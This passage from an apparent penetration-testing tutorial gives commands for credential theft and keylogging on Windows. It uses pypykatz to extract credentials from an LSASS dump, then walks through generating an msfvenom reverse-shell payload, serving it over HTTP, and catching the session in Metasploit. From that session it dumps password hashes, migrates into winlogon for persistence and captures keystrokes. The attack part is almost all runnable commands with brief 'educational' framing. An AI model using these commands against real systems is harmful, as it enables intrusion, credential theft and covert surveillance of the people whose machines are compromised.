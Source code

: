 ```bash

# Analyze the dump file
└─$ pypykatz lsa minidump lsass.dmp
```

**Educational Notes:**

- This technique demonstrates how credentials are stored in memory
- Understanding this process helps in developing better credential protection mechanisms
- LSASS memory dumps contain sensitive authentication data that should be protected
## Keylogging Techniques

### Creating an Educational Keylogger with Msfvenom

This example demonstrates how keyloggers can capture sensitive information, highlighting the importance of endpoint security.

#### Detailed Example: Msfvenom Keylogger

```bash
# 1. Generate payload
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.74.136 LPORT=4444 -f exe -o shell.exe

# 2. Set up web server to deliver payload
root@kali:~# python3 -m http.server

# 3. Set up handler in Metasploit
root@kali:~# msfconsole
msf > use multi/handler
msf exploit(multi/handler) > set LHOST 192.168.74.136
msf exploit(multi/handler) > set LPORT 4444
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > exploit

# 4. After connection is established:
meterpreter > run post/windows/gather/hashdump
meterpreter > ps
meterpreter > ps | grep logon

# 5. Migrate to winlogon process for persistence
meterpreter > migrate 868
[*] Migrating from 6080 to 868...
[*] Migration completed successfully.

# 6. Start keylogger
meterpreter > keyscan_start
Starting the keystroke sniffer ...

# 7. Dump captured keystrokes
meterpreter > keyscan_dump
Dumping captured keystrokes...
```

